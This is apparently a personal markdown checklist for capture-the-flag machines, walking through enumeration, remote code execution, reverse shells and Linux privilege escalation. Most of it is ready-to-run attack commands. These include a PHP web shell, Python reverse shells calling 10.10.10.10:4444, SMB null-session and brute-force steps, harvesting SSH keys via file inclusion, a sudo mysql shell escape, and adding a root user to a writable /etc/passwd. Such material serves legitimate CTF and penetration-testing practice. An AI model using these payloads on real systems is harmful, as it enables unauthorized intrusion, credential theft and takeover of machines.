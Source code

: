 # Checklist for CTF

This is an attempt to create mindmap oriented checklist for CTF and no reason can this not extend to bug bounty too.

- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)




- [ ] Enum
	- [ ] Nmap
		- [ ] [Howto](active-information-gathering/nmap.md)
			- [ ] Copy key findings to report
			- [ ] check results
			- [ ] Paste to [report](templates/report.md)
			- [ ] Highlight exploitables/targets
	- [ ] Rustscan
		- [ ] check results
  - [ ] `enum4linux $IP` -> users, share, comon structure, server block.
    - [ ] Highlights
      - [ ] check results 
      - [ ] Check SMB null session
      - [ ] system level users
	- [ ] nmap-nse
  	- [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)
	- [ ] smb/netbio-ssn
		- [ ] Ports [139, 445]
		- [ ] `mkdir smb`
		- [ ] `nmap -p139,445 --script=smb-enum-shares $IP`
			- [ ] `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
			- [ ] smbclient //'IP'/qui -N
			- [ ] crackmapexec
			- [ ] mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
		- [ ] `smbmap -H $IP`
		- [ ] `smbclient --no-pass -L //$IP`
		- [ ] `smbclient --no-pass \\\\$IP\\anonymous`
		- [ ] `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
		- [ ] `mget file.name`
		- [ ] `smbmap -u <user> -p <PassWord> -H $IP`
		- [ ] `smbclient //'IP'/<share> -U'user'%'password'`
		- [ ] `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`
	- [ ] ssl/pop3 [110]
	- [ ] ssl/imap [993/143]
	- [ ] Apache Tomcat [8080]
		- [ ] Read Version
		- [ ] Check URL (hints)
		- [ ] default credentials
		- [ ] mfsconsole /is it allowed?
	- [ ] Domain [53]
	- [ ] Web Enum
		- [ ] Load each targetted port in browser
		- [ ] export PORT=80
		- [ ] `dirb http://$IP:$PORT/ -r`
		- [ ] `nikto --host http://<IP> -C all` :: tool for webapp
		- [ ] `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
			- [ ] HTTPS you will want to include protocol too
			- [ ] `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
		- [ ] `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
		- [ ] framework/server/service -> searchexploit
		- [ ] Check for config through URL's like 
		- [ ] hostname/username/re-use etc
		- [ ] LFI
			- [ ] check for ssh keys
			- [ ] check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
			- [ ] vsftpd -> upload, to rce from upload file
		- [ ] RFI
			- [ ] rev shell
				- [ ] https://www.revshells.com/
				- [ ] `python -c 'import pty;pty.spawn("/bin/bash")'`
		- [ ] `linpeas.sh`
		- [ ] CUPS Http `631`
	- [ ] SSH
		- [ ] hydra
			- [ ] [Howto](tools/bruteforce/ssh/hydra) 
	- [ ] `curl -A "GoogleBot" http://$IP/robots.txt`
	- [ ] searchsploit
	- [ ] Port knocking
		- [ ] nmap port knock 
- [ ] /cgi-bin
	- [ ] shellshock?
- [ ] morse code?



- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`


- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
